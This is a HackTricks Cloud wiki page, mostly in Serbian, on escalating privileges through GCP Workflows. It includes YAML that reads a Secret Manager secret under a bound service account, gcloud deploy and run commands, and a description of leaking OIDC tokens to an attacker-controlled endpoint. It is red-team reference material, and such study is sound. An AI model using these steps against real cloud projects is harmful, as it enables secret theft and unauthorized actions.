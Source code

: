 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Osnovne informacije:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Koliko ja znam, nije moguće dobiti shell sa pristupom metapodacima koji sadrže SA akreditive SA vezanog za Workflow. Međutim, moguće je zloupotrebiti dozvole SA dodavanjem akcija koje treba izvršiti unutar Workflow-a.

Moguće je pronaći dokumentaciju konektora. Na primer, ovo je [**stranica konektora Secretmanager**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** U bočnoj traci moguće je pronaći nekoliko drugih konektora.

I ovde možete pronaći primer konektora koji štampa tajnu:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Ažuriranje iz CLI-a:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Ako dobijete grešku poput `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist`, samo **sačekajte minut i pokušajte ponovo**.

Ako nemate web pristup, moguće je pokrenuti i videti izvršenje Workflow-a sa: 

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Možete takođe proveriti izlaz prethodnih izvršenja da biste potražili osetljive informacije
{% endhint %}

Imajte na umu da čak i ako dobijete grešku poput `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` zato što nemate tu dozvolu, radni tok je generisan.

### Curjenje OIDC tokena (i OAuth?)

Prema [**dokumentaciji**](https://cloud.google.com/workflows/docs/authenticate-from-workflow), moguće je koristiti korake radnog toka koji će poslati HTTP zahtev sa OAuth ili OIDC tokenom. Međutim, kao u slučaju [Cloud Scheduler](gcp-cloudscheduler-privesc.md), HTTP zahtev sa Oauth tokenom mora biti upućen hostu `.googleapis.com`.

{% hint style="danger" %}
Stoga, **moguće je curenje OIDC tokena ukazivanjem na HTTP krajnju tačku** koju kontroliše korisnik, ali da biste curili **OAuth** token, potrebna vam je **zaobilaženje** te zaštite. Ipak, i dalje možete **kontaktirati bilo koji GCP API da biste izvršili radnje u ime SA** koristeći bilo koje konektore ili HTTP zahteve sa OAuth tokenom.
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Sa ovom dozvolom umesto `workflows.workflows.create` moguće je ažurirati već postojeći workflow i izvršiti iste napade.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
